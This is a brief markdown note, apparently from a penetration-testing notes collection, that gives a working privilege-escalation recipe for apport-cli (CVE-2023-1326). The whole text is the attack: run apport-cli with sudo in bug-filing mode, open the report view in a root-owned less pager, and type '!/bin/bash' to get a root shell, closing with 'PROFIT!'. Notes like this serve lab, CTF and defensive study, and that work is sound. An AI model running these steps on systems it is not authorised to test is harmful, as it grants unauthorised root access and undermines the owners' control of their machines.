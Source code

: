 # Apport-cli Privesc

## Resources: https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/

# With sudo:

## Steps:

 - sudo /usr/bin/apport-cli -v (Check version)

 - sudo /usr/bin/apport-cli --file-bug (Enter debug mode)

 - Choose 1

 - Choose 2

 - Press V

 - Enter !/bin/bash to execute an elevated bash shell (Opens a less page as root)

 - PROFIT!
